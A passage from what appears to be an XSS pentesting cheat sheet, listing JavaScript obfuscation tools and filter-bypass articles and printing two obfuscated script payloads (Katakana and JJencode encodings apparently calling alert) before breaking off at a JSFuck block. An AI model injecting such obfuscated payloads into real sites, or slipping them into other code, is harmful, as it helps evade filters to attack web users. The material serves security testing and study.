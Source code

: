 ### Obfuscation & Advanced Bypass

- **Different obfuscations in one page:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
- [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
- [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
- [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
- [http://www.jsfuck.com/](http://www.jsfuck.com)
- More sofisticated JSFuck: [https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
- [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
- [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
- [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

```javascript
//Katana
<script>
  ([,ウ,,,,ア]=[]+{}
  ,[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
<script>
```